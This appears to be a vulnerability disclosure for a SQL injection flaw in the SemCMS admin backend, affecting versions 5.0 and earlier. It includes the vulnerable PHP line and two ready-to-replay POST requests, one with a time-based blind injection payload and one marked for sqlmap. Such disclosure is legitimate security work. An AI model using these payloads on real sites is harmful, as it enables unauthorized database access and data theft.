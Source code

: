 ## Semcms backend SQL injection vulnerability



### Semcms  introduce

SemCms is an open-source foreign trade enterprise website management system, primarily used for foreign trade companies. It is compatible with major browsers such as IE, Firefox, Google Chrome, and 360.



### Vulnerability description

SQL Injection is a web security vulnerability that allows attackers to interfere with the queries an application makes to its database. By inserting malicious SQL statements, attackers can potentially access sensitive data, modify or delete records, and in some cases, take control of the entire database.



```
Semcms Project address

https://github.com/J1095/fkapfxx
```



Locate the source code to the backend directory's `SEMCMS_Fuction.php`. The input parameter values are not filtered and are directly used in database queries.  The vulnerable parameter is AID.

```
if(isset($_POST["AID"])){$area_arr=$_POST["AID"];$area_arr = implode(",",$area_arr);}else{$area_arr="";}
```

![image-20250118230926043](./assets/image-20250118230926043.png)

![image-20250118231818600](./assets/image-20250118231818600.png)

The first vulnerability point data packet.

```
POST /G45HTO_Admin/SEMCMS_Images.php?Class=Deleted&CF=Images&page= HTTP/1.1
Host: xxxxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://testsemcms
Connection: close
Referer: http://xxxxxxxx/G45HTO_Admin/SEMCMS_Images.php
Cookie: __tins__4329483=%7B%22sid%22%3A%201733579893865%2C%20%22vd%22%3A%206%2C%20%22expires%22%3A%201733581851212%7D; __51cke__=; __51laig__=6; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Priority: u=4

AID%5B%5D=243*
```

The two vulnerability point data packet.

```
POST /G45HTO_Admin/SEMCMS_Inquiry.php?Class=Deleted&CF=Inquriy&page= HTTP/1.1
Host: xxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://testsemcms
Connection: close
Referer: http://xxxxxxxx/G45HTO_Admin/SEMCMS_Inquiry.php
Cookie: __tins__4329483=%7B%22sid%22%3A%201733579893865%2C%20%22vd%22%3A%206%2C%20%22expires%22%3A%201733581851212%7D; __51cke__=; __51laig__=6; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Priority: u=4

languageID=&AID%5B%5D=1 AND (SELECT 997 FROM (SELECT(SLEEP(5)))Iokc)
```

SQLmap verification as follows:

![Snipaste_2024-12-07_22-51-46](./assets/Snipaste_2024-12-07_22-51-46.png)



#### The affected version

```
Semcms <= 5.0
```

Malicious attackers can exploit the vulnerability to illegally obtain data and even gain unauthorized access to the website.